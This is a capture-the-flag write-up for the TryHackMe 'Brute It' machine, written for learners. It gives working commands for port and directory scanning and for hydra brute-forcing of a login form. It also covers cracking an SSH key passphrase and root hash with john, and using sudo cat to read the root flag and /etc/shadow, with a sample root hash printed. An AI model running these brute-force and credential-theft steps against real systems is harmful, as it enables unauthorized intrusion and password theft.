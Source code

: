 # Brute it TryHackMe CTF

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Brute It |
| Difficulty | Easy |
| Tags | security, brute-force, hash cracking, priv-esc|

---
```
$IP = Machine_IP
```
## Recon:
- In the recon we need to map the network (using nmap) to understand what exactly we're attacking and what services  we can exploit or in this case what can we brute force in order to gain access.

```
nmap -p- -sV -T4 $IP

Nmap scan report for MACHINE_IP
Host is up (0.13s latency).
Not shown: 65501 closed ports, 32 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Flags Used:
- `-p-`  to scan for every port
- `-sV` to get service versions
- `-T4` for the highest threads so we scan a lot faster

We can see the http service running which is a web server running on port `80` which is the default for the http service, when you see a web server running the first thing you do is directory bruteforcing to see if there is any hidden directories or files, you can use tools like: dirb, dirbuster, ffuf, gobuster.

I like to use gobuster so thats what am going to use to get any directory or file.

```
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt

/admin                (Status: 301) [Size: 314] [--> http://$IP/admin/]
```

Flags Used:
- `-u` for the website link
- `-w` for the wordlist

we found an admin page lets head there and see what we have, this is where we attack we can see a login page for the admin always open the source code to see whats going on on that page, suprisingly enough we found the username in a comment.

`<!-- Hey john, if you do not remember, the username is admin -->`

## Gaining Access:
now we just need to bruteforce for the password using a tool called `hydra`
the http-form syntax is annoying to write but you will always find resources online

as we can see in the form in the /admin page source code the params are:
```
the username: name="user"
the password: name="pass"

params: name=&pass=

and we need the error message as well, enter anything and try to login doing that will give as the error message which is "Username or password invalid"
```

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz $IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

Output:
`[80][http-post-form] host: MACHINE_IP   login: admin   password: `

the password is removed so you can try it by yourself.

By logging in we will find the Web flag and an RSA  Private Key
so we can have access to ssh and gain a shell on the machine but not yet! 

- we need to get the passphase of the RSA Private Key by using a really famous cracking tool called john the ripper.

first we need to get the `id_rsa` hash by using `ssh2john` its in `/usr/share/john/ssh2john.py` by default.

`sudo python /usr/share/john/ssh2john.py id_rsa > hash`

now lets crack the hash using john:
unzip rockyou first using this command :`gzip -d rockyou.txt.gz`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

now that we have the passphase for the private key lets connect to ssh:

if you can remember the comment from the source code had a name which is `john` that would be a possible username.

`ssh -i id_rsa john@$IP`

now we gained access !!! :)
`cat user.txt` to get the user flag


## Privilege Escalation:
When you need to escalate your privilege first thing you do is finding a binary or a writeable file that is owned by the root user aka the super user.

first command you do is `sudo -l`

we already see a binary called `cat` lets go and search for an exploit for it in [gtfobins](gtfobins.github.io) which is a something close to a database but for privilege escalation.

ok, the exploit for it is really easy you just need to use the cat command to read the root flag.

`sudo cat /root/root.txt`

now that we have the root flag the only thing left is the root password and the linux stores the passwords in a file called `/etc/shadow` and the usernames in `/etc/passwd`

lets do the samething we did to the root.txt
`sudo cat /etc/shadow` 

```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

the hash starts with `$6$` which is a SHA512CRYPT, now i will use john to crack it but another choice would be hashcat.

put the root hash in a file than run john again.

`john -w=/usr/share/wordlists/rockyou.txt roothash`

That was the machine
Happy Hacking :)
